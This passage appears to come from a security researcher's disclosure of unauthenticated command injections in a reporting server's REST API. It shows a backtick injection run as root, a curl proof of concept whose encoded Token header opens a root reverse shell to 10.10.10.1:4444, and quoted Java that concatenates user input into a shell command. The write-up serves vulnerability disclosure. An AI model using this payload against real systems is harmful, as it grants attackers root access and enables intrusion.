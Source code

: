 But our injection was executed, and the command ran as:

```
BOAdapter -releaseToken -token `whoami>/tmp/who `
```

Which results in another unauthenticated command injection as root:

```
[obruser@mfobr logs]$ cat /tmp/who
root
```

The proof of concept is so simple that again it fits in a *curl* command:

```
curl -i -s -k -X $'DELETE' \
    -H $'Host: mfobr.nat:21412' -H $'Token: YG5jIC1lIC9iaW4vYmFzaCAxMC4xMC4xMC4xIDQ0NDRg' \
    $'https://mfobr.nat:21412/AdminService/urest/v1/LogonResource'
```

As last time, this will spawn a root reverse shell to 10.10.10.1:4444.

You can view the attack in full glory in this asciinema cast:
[![asciicast](https://asciinema.org/a/395852.svg)](https://asciinema.org/a/395852)


#### 1.3: Command Injection in *logonWithCertificate()*

But wait, we're not done yet! Turns out the *AuthenticationManager* class is a gold mine for command injections. The next one is in *AuthenticationManager.logonWithCertificate()*:

```java
	public String logonWithCertificate(String username, String sharedSecret, String clientCompName) {
		if (!this.isUserAllowedForCertBased(username, sharedSecret)) {
			return null;
		}
		BasicAuthentication basicauth = new BasicAuthentication();
		String generatedToken = basicauth.generateTokenCert(username, clientCompName, sharedSecret);
		SimpleDateFormat dateFormat = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
		Calendar cal = Calendar.getInstance();
		mapCert.put(generatedToken, dateFormat.format(cal.getTime()));
		return generatedToken;
	}
```

> Snippet 10: *AuthenticationManager.logonWithCertificate()*

Let's follow on and check *AuthenticationManager.isUserAllowedForCertBased()*:

```java
	private boolean isUserAllowedForCertBased(String username, String sharedSecret) {
		boolean isAllowed = false;
		FileInputStream fis = null;
		BOTrustedLoginCredential credential = null;
		try {
			fis = new FileInputStream(new File(this.bsmrConfigFile));
			this.properties.load(fis);
			String cms = this.properties.getProperty(SecurityConstant.BO_CMS);
			String authType = this.properties.getProperty(SecurityConstant.BO_AUTH_TYPE);
			credential = new BOTrustedLoginCredential(username, cms, sharedSecret);
			if (credential instanceof BOTrustedLoginCredential) {
				String sharedSec = EncryptionUtility.encryptString((String)sharedSecret);
				String command = "BOAdapter -loginAuth -username \"" + username + "\"" + " -sharedSecret " + sharedSec + " -cms " + cms + " -authType " + authType;
				PlatformCommandExecutor cmd = new PlatformCommandExecutor(command);
				cmd.execute();
				int exit = cmd.getExitValue();
				if (exit == 0) {
```